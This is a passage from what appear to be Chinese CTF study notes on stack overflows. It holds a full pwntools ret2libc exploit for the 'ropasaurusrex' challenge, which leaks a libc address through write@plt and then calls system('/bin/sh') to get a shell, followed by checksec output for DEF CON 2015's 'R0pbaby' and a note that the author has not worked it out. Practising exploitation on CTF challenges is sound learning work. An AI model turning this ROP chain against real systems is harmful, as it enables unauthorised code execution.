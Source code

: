 ```python
from pwn import *

p = process('./ropasaurusrex')

rop = ELF('./ropasaurusrex')
libc = ELF('./libc.so.66')
write_plt = rop.plt['write']
read_plt = rop.plt['read']
read_got = rop.got['read']
read_func = 0x080483F4
pop3_ret = 0x080484b6
pop_ebx = 0x080483c3
# write(1, "WIN\n", 4u)

payload = flat(
    ['a' * 0x8c, write_plt, pop3_ret, 0x1, read_got, 0x4, read_func]
)
p.sendline(payload)
read_addr = u32(p.recv(4))
base_addr = read_addr - libc.symbols['read']
system_addr = base_addr + libc.symbols['system']
binsh_addr = base_addr + next(libc.search('/bin/sh'))

payload = flat(['a' * 0x8c, system_addr, 0xdeadbeef, binsh_addr])
p.sendline(payload)
p.interactive()
p.close()

```

#### Defcon 2015 Qualifier: R0pbaby

```bash
	Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

有点看不懂。。待定

## 花式栈溢出技巧


